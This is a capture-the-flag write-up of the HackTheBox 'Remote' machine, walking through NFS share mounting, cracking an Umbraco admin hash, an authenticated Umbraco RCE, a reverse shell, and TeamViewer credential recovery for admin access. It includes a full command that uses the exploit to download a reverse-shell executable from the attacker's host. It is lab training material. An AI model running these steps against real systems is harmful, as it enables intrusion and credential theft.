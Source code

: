 ```yaml
---
layout: single
title: Remote
date: 2020-12-24
classes: wide
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```


# Remote
### 10.10.10.180

![nmap](../../images/writeups/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
**nmap [-sC](https://nmap.org/book/man-nse.html) [-sV](https://nmap.org/book/man-version-detection.html) [-oN](https://nmap.org/book/man-output.html) nmap/initial [-T4](https://nmap.org/book/man-performance.html) 10.10.10.180**

![nmap](../../images/writeups/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](../../images/writeups/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](../../images/writeups/remote/site2.png)

![nmap](../../images/writeups/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](../../images/writeups/remote/showmount.png)

Interesting! Let's mount it

**sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it**

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](../../images/writeups/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](../../images/writeups/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](../../images/writeups/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](../../images/writeups/remote/msfvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](../../images/writeups/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](../../images/writeups/remote/peasupload.png)

![nmap](../../images/writeups/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](../../images/writeups/remote/teamviewersearch.png)

![nmap](../../images/writeups/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](../../images/writeups/remote/admin.png)

![nmap](../../images/writeups/remote/userflag.png)

![nmap](../../images/writeups/remote/rootflag.png)
